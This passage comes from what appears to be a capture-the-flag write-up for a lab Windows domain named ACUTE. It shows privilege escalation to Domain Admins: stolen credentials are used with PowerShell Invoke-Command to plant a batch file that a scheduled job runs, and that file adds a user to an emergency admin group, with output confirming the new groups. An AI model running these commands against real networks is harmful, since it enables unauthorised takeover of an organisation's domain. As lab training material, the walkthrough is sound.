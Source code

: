 In the comment, it says **this `Site_Admin` group has access to `Domain Admin` group!**

Armed with above information, **we can escalate our privilege to `Domain Admins` group via changing a domain user's group membership to `Site_Admin`!**

**To do so, we can create a Batch script in `C:\Program Files\keepmeon\`!**
```batch
net group Site_Admin awallace /add /domain
```

This will add the `Site_Admin` group to domain user `awallace`.

```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ConfigurationName dc_manage -ScriptBlock { Set-Content -Path "C:\Program Files\keepmeon\add_to_site_admin.bat" -Value "net group site_admin awallace /add /domain" }
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ConfigurationName dc_manage -ScriptBlock { cat "C:\Program Files\keepmeon\add_to_site_admin.bat" }
net group Site_Admin awallace /add /domain
```

> Note: You can add `Site_Admin` group to any domain user.

**After waiting for 5 minutes or so, `awallace` domain user has `Site_Admin` group:**
```shell
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ConfigurationName dc_manage -ScriptBlock { net group Site_Admin /domain }
Group name     Site_Admin
Comment        Only in the event of emergencies is this to be populated. This has access to Domain Admin group

Members

-------------------------------------------------------------------------------
awallace                 
The command completed successfully.
PS > Invoke-Command -Computer ATSSERVER -Credential $cred1 -ConfigurationName dc_manage -ScriptBlock { whoami /groups }

GROUP INFORMATION
-----------------

Group Name                                   Type             SID                                            Attributes                                                     
============================================ ================ ============================================== ===============================================================
Everyone                                     Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group             
BUILTIN\Users                                Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Pre-Windows 2000 Compatible Access   Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Certificate Service DCOM Access      Alias            S-1-5-32-574                                   Mandatory group, Enabled by default, Enabled group             
BUILTIN\Administrators                       Alias            S-1-5-32-544                                   Mandatory group, Enabled by default, Enabled group, Group owner
NT AUTHORITY\NETWORK                         Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\Authenticated Users             Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group             
NT AUTHORITY\This Organization               Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group             
ACUTE\Domain Admins                          Group            S-1-5-21-1786406921-1914792807-2072761762-512  Mandatory group, Enabled by default, Enabled group             
ACUTE\Managers                               Group            S-1-5-21-1786406921-1914792807-2072761762-1111 Mandatory group, Enabled by default, Enabled group             
```
